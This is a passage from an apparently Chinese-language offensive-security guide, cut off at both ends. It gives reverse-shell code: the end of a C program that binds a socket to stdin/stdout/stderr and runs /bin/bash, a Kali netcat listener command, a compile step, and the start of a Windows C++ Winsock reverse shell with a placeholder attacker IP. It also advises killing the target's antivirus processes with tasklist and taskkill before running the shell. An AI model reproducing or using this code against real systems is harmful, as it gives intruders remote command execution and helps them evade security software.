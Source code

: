   ```c
                  }
  
                  dup2(fd, 0);
                  dup2(fd, 1);
                  dup2(fd, 2);
                  execve("/bin/bash", 0LL, 0LL);
          }
          return;
  }
  
  void main(int argc, char const *argv[])
  {
          reverse_shell();
          return 0;
  }
  ```

- kali开启监听：

  ```
  nc -lvvp 6666
  ```

- gcc编译：

  ```
  gcc ReverseShell.c -o ReverseShell
  ```

- 成功得到shell

## g++(c++)

此方法可能被杀，使用前先查看目标上是否有杀软，先给他把他妈的进程kill掉，tasklist，taskkill

```c++
#include <iostream>
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>
#include <synchapi.h>
using namespace std;

SOCKET Winsock;
WORD wVersionRequested;
WSADATA wsaData;
struct sockaddr_in hax; // 地址结构
char ip_addr[16] = "*.*.*.*"; // ip地址（或者主机名）
char port[6] = "8888";              // 端口
// 指定新进程主窗口的特性
STARTUPINFO ini_processo;

// 返回有关新进程及其主线程的信息
PROCESS_INFORMATION processo_info;

int __cdecl main(){   
    int err;
    while(1){
        err = WSAStartup(MAKEWORD(2, 2), &wsaData);
        if(err != 0){
            printf("WSAStartup failed with error: %d\n", err);
            return 1;
        }
        Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);
```